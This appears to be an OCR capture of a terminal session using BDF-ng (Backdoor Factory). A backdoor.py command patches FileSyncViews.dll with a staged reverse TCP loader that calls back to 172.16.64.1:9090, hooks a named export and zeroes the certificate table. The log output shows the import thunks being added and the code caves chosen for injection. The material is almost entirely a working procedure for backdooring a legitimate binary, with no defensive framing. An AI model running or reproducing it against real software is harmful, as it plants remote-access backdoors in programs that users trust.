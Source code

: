 ```bash

 ./backdoor.py -q -f tests/FileSyncViews.dll PATCH_METHOD=hook_dll_exports \
 MODE=dll_loader_single_cave PAYLOAD=text_loader_dll_reverse_tcp_staged_threaded \
 HOST=172.16.64.1 PORT=9090 \
 EXPORTS='?StartQtApp@QtViews@@YAXAEAHPEAVIResourceProvider@@PEAVICrossPlatformWindowManager@@@Z' \
 TESTING=True CHECKSUM=True ZERO_CERT=True  -M manual
         BDF-ng
         
         Author:    Joshua Pitts
         Email:     the.midnite.runr[-at ]gmail<d o-t>com
         Twitter:   @ausernamedjosh
         
         Version:   5.0.0
         
2023-12-22 18:12:29,INFO,pe_parse.py,[*] Gathering file info
2023-12-22 18:12:30,INFO,core.py,[*] Setting patch_instr for overwriting certificate table pointer
2023-12-22 18:12:30,INFO,hook_dll_exports.py,[*] Selected Payload: text_loader_dll_reverse_tcp_staged_threaded
2023-12-22 18:12:30,INFO,hook_dll_exports.py,[*] Selected Mode: dll_loader_single_cave
2023-12-22 18:12:30,INFO,core.py,[*] Checking for APIs
2023-12-22 18:12:30,INFO,core.py,[*] Parsing data directories
2023-12-22 18:12:30,INFO,core.py,[*] Creating new IAT in new section IDT_IN_CAVE is False
2023-12-22 18:12:30,INFO,core.py,[*] Adding New Section for updated Import Table
2023-12-22 18:12:30,INFO,core.py,[!] Adding b'CreateThread' Thunk in new IAT
2023-12-22 18:12:30,INFO,core.py,[!] Adding b'LoadLibraryA' Thunk in new IAT
2023-12-22 18:12:30,INFO,core.py,[!] Adding b'VirtualAlloc' Thunk in new IAT
2023-12-22 18:12:30,INFO,core.py,Building imports
2023-12-22 18:12:30,ERROR,pe_parse.py,No DISK_OFFSET provided using 0
2023-12-22 18:12:30,INFO,pe_parse.py,[*] Gathering file info
2023-12-22 18:12:30,INFO,core.py,[*] Checking updated IAT for thunks
2023-12-22 18:12:30,INFO,core.py,[*] Checking for APIs
2023-12-22 18:12:30,INFO,core.py,[*] Parsing data directories
2023-12-22 18:12:30,INFO,core.py,[*] The APIs have been located in the file -- or created :D
2023-12-22 18:12:30,INFO,text_loader_dll_reverse_tcp_staged_threaded.py,CreateThread stub len: 0x43, 67
2023-12-22 18:12:30,INFO,dll_loader_single_cave.py,txt_vrt_slck_loc: 6443051051, hex: 0x18009282b
2023-12-22 18:12:30,INFO,dll_loader_single_cave.py,Loader len: 0xcf, 207
2023-12-22 18:12:30,INFO,dll_loader_single_cave.py,payload_stub len: 0x184, 388
2023-12-22 18:12:30,INFO,dll_loader_single_cave.py,ResumeEXE stub len: 1
2023-12-22 18:12:30,INFO,dll_loader_single_cave.py,slack_space_size: hex: 0x1d5, 469
2023-12-22 18:12:30,INFO,dll_loader_single_cave.py,Text slack space is large enough
2023-12-22 18:12:30,INFO,core.py,[*] Looking for caves that will fit the minimum shellcode length of 460
2023-12-22 18:12:30,INFO,core.py,[*] All caves lengths: 460
2023-12-22 18:12:30,INFO,core.py,############################################################
The following caves can be used to inject code and possibly
continue execution.
**Don't like what you see? ignore or quit and view options.**
############################################################
[*] Cave 1 length as int: 460
[*] Available caves: 
1. Section Name: b'.text\x00\x00\x00'; Section Begin: 0x400 End: 0x91e00; Cave begin: 0x91c2f End: 0x91dff; Cave Size: 464; Characteristics: 0x60000020
2. Section Name: b'.rdata1\x00'; Section Begin: 0x313200 End: 0x314200; Cave begin: 0x313589 End: 0x313759; Cave Size: 464; Characteristics: 0xc0000040
3. Section Name: b'.rdata1\x00'; Section Begin: 0x313200 End: 0x314200; Cave begin: 0x31375d End: 0x31392d; Cave Size: 464; Characteristics: 0xc0000040
4. Section Name: b'.rdata1\x00'; Section Begin: 0x313200 End: 0x314200; Cave begin: 0x313931 End: 0x313b01; Cave Size: 464; Characteristics: 0xc0000040
5. Section Name: b'.rdata1\x00'; Section Begin: 0x313200 End: 0x314200; Cave begin: 0x313b05 End: 0x313cd5; Cave Size: 464; Characteristics: 0xc0000040
6. Section Name: b'.rdata1\x00'; Section Begin: 0x313200 End: 0x314200; Cave begin: 0x313cd9 End: 0x313ea9; Cave Size: 464; Characteristics: 0xc0000040
```